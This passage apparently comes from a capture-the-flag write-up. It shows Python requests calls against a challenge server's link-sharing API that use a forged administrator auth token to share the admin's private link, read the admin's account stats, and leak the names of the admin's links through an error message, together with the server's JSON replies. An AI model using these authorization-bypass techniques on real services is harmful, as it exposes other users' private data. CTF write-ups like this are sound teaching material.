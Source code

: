 And recover this in a moment.
This gives us `493291123`.

Now we can share the link `test` with our user:

```python
    url = "http://66.172.33.148:5001/api/links/share/private"
    r = requests.post(url, json={"link_name": "test", "random_number": "493291123", "user_id": "1", "share_user_id": "7"},
                      headers={
                          "auth-token": "1234.7974d396f5cfcdbe3433037c11e819ca",
                          "device-id": "not really verified",
                          "Content-Type": "application/json"
                      })
    print(r.text)
```

And we get back:

```json
{"code":200,"data":{"msg":"the user_id(7) can view the link by /api/link/preview/1/493291123/test"}}
```

And indeed, we can now check this link, but it's not the flag.

If we check stats for the admin:

```python
url = "http://66.172.33.148:5001/api/users/me"
r = requests.get(url, headers={"auth-token": "1234.7974d396f5cfcdbe3433037c11e819ca", "device-id": "1234"})
print(r.text)
```

We ca see:

```json
{"code":200,"data":{"links":5,"user_id":1,"user_type":"Administrator"}}
```

So admin has 5 links.

It took us a long time to figure out how to get the name of the admin links (trying to get device-id, to use `/mylinks` was a no-go, the android_id is unpredictable).
Eventually we played a little bit with adding our own links and sharing them, and then we noticed that trying to add the same link twice gives us and error with list of all the names of our links!

We can do this now for the admin, because we know there is a link `test`:

```python
url = "http://66.172.33.148:5001/api/links/share"
r = requests.post(url, json={"link_name": "test", "link": "https://somelink", "private": "0"},
                  headers={
                      "auth-token": "1234.7974d396f5cfcdbe3433037c11e819ca",
                      "device-id": "not really verified",
                      "Content-Type": "application/json"
                  })
print(r.text)
```
